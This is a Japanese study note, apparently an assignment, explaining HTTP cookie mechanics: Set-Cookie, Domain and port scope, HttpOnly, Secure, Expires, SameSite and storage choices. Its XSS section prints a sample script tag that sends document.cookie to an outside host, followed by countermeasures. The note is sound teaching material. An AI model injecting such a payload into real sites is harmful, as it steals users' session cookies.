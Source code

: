 # 課題１（質問）

## クッキーとは（「Set-cookie」「ヘッダ」「サーバ」「ブラウザ」という単語を使って仕組み説明）

- クッキーとは、key=value の組み合わせで表現される情報のこと
  - `<cookie-name>=<cookie-value>`
    - `cookie-name`: US-ASCⅡ の文字列（制御文字、空白、タブを除く。`()<>@,;:\"/[]?={}`など区切り文字も含めない）
    - `cookie-value`: US-ASCⅡ の文字列（任意でダブルクォートで括れば、制御文字、ホワイトスペースなども使用可能。ただし`",;\`だけは使えない）
- Set-cookie は HTTP レスポンスヘッダ
  - このヘッダを使ってサーバーからクライアントにクッキーを送信することができる

## www.hoge.comで発行されたクッキーは、www.fuga.comにも送信されるか（異なるホスト間でクッキーは共有できるか）

- NO
  - セキュリティ上の理由でユーザーエージェントが拒否するため
- ただし`Set-Cookie`ヘッダに`Domain=<domain-value>`属性を指定することで、そのドメイン（example.com）と、そのサブドメイン（sub.example.com）間ではクッキーを使用できる
  - **※`Domani=other-domain.com`のようにホスト名が異なるクッキーは設定できない。**

## hoge.com:8080 のクッキーは hoge.com:9090 にも送信されるか（異なるポート間でクッキーは共有できるか）

- YES
  - この場合、`hoge.com`がホスト名、`8080`や`9090`がポート番号にあたるが、[RFC6265 Section8.5](https://datatracker.ietf.org/doc/html/rfc6265#section-8.5)によると、ポート番号での識別はしないとのこと
    > Cookies do not provide isolation by port. （クッキーはポート番号による分離を提供するものではない）

## www.hoge.comで発行されたクッキーは、www.api.hoge.comにも送信されるか（サブドメイン間でクッキーは共有できるか）

前述の回答通り、`Set-Cookie`ヘッダに`Domain=hoge.com`属性を指定すれば送信される

## クッキーに Domain="hoge.com"を指定した場合、api.hoge.com にもクッキーは送信されるでしょうか？理由を説明してください

- YES
  - 異なるサブドメイン間でログインセッションなどのデータを共有したいことはままあるため
  - [（参照）サブドメインの異なるサービスで cookie を共有する](https://qiita.com/il-m-yamagishi/items/9aad5737c80d5bfd5eb8)

## JavaScript からクッキーの値が取得されることを防ぐには

httpOnly 属性を有効にする

## HTTPS（暗号化）通信の時だけクッキーを送信するには

Secure 属性を有効にする

## クッキーに Expires を設定すると、どのように挙動が変わるか

- Cookie に有効期限が付与される
  - `Exprises=<date>`形式で、サーバーではなくクライアントからの相対時刻で設定される
  - 設定していない場合、クッキーはセッションクッキーとなり、セッションが終了したとき（クライアントが終了したとき）に削除される

## SameSite 属性とは

- ドメイン間リクエストにおけるクッキーの送信設定を行う属性
- `SameSite=<samesite-value>`形式で指定する

  - `samesite-value`: `Strict`, `None`, `Lax`の３種類の設定値がある（モダンブラウザのデフォルト値は`Lax`）
  - `cross-site`へのクッキー送信可否における違いがある

    ### 1. `Strict`

    `same-site`では常に付与する。`cross-site`では常に付与しない。

    ### 2. `None`

    `same-site`では常に付与する。`cross-site`でも常に付与する。

    ### 3. `Lax`

    `same-site`では常に付与する。`cross-site`では、`Top Level Navigation` かつメソッドが `safe` のときにのみ、付与する。

    - `Top Level Navigation`とは: ブラウザのアドレスバーに表示されている URL の変更が伴う遷移のこと
    - `safe method`とは：対象リソースに変更を加えないメソッド（`GET`, `HEAD`, `OPTIONS`, `TRACE`）

    つまり`cross-site`のとき、**`POST`メソッドでのリクエスト**だったり、**`img`や`iframe`でのリクエスト**では、クッキーは送信されない。が、リンクタグとフォームタグ（safe メソッドのみ）からのリクエストではクッキーは送信される。

[（参照）Cookie の SameSite 属性が Lax の時の挙動](https://qiita.com/muk-ai/items/10aab285784e780ef631)

## クッキーに格納しない方が良い情報の例

パスワード、クレカ番号、電話番号など人に知られてはいけないデータ（devtool から確認できるため）

## クッキーを使うべきタイミングと、ローカルストレージを使うべきタイミング

- [比較表](https://qiita.com/terufumi1122/items/76bafb9eed7cfc77b798)
  - 容量の大きさ、有効期限設定可否、サーバー側でそのデータを使いたいかなどによって判断できそう
    - サーバー側で情報が必要な場合: cookie がよい
    - EC サイトのカート情報など: localStorage がよい
    - etc...

## 掲示板サービスなどを開発する際、XSS（クロスサイトスクリプティング）により、他ユーザのクッキー情報が抜き出される仕組みとその対策

脆弱性のあるサイトにスクリプトを埋め込んで、リダイレクトや iframe タグなどから攻撃者が用意したサイトへのリンクを踏ませることができれば、アクセスログなどにより秘匿情報を確認できる。

```js
// sample
<scrpit>location.href=`http://sample.com?${document.cookie}`</script>
```

### 対策

- 入力値のバリデーション、出力値のエンコーディングを徹底する
- JS 経由で cookie にアクセスできないように`httpOnly`属性を有効化する
- その他もいろいろある
  - [（参照）安全なウェブサイトの作り方 - 1.5 クロスサイト・スクリプティング](https://www.ipa.go.jp/security/vuln/websecurity-HTML-1_5.html)
